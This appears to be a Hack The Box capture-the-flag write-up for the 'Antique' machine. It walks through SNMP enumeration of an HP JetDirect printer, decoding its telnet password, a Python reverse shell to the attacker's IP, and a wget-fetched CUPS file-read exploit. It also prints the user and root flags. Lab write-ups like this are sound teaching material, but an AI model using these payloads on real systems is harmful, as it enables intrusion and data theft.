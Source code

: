 ```yaml
---
title: "Antique from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Antique from HTB
`nmap`gave this
```bash
nmap -sC --min-rate=4000 -T4 10.10.11.107 -Pn

PORT   STATE SERVICE
23/tcp open  telnet
-------------------------------------------------------
sudo nmap -sU --min-rate=4000 -T4 10.10.11.107 -Pn

PORT      STATE  SERVICE
161/udp   open   snmp
-------------------------------------------------------
 sudo nmap -sU -sV --min-rate=4000 -T4 10.10.11.107 -p 161

PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server (public)
```
the `(public)`means that we can use `snmpwalk`on it
```bash
snmpwalk -v 1 -c public 10.10.11.107
iso.3.6.1.2.1 = STRING: "HTB Printer"
```
I got nothing more from `snmpwalk`
```bash
telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: admin
Invalid password
Connection closed by foreign host.
```
Searching `HP JedDirect`got me something
https://www.irongeek.com/i.php?page=security/networkprinterhacking
Here is an exploit with `snmpget`which we can use and it will give us `hexed passowrd`
```bash
snmpget -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```
This is `hex`and decode it to get password. Go to `CyberChef`and use `From Hex`
```
P@ssw0rd@123!!123
```
We got The password, go to `telnet`and connect with this password: `P@ssw0rd@123!!123`
```bash
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```
the `exec`can execute normal commands so let's try to get shell with python.
https://www.revshells.com/
use `python`ones
this got me connection
```python
exec python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.7",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```
***
User Flag is: 577f8cdadeb1458074f296c3de434610
***
```bash
ss -tlnp

LISTEN    0         4096             127.0.0.1:631              0.0.0.0:*
```
lets see what is on `631`port with `curl`
```bash
curl 127.0.0.1:631


<H1>CUPS 1.6.1</H1>
```
We can find exploit for this on `github` https://github.com/p1ckzi/CVE-2012-5519/blob/main/cups-root-file-read.sh
which if we download on `remote machine` and execute we can read `root flag or /etc/shadow`
```bash
wget 10.10.16.7:8001/ragaca.sh
chmod +x ragaca.sh
echo '/root/root.txt' | ./cups-root-file-read.sh
```
***
Root Flag is: 4985b7a44209c17f0eda5d61862a966c
***
![](/assets/images/2024-08-23_18-36-57.png)
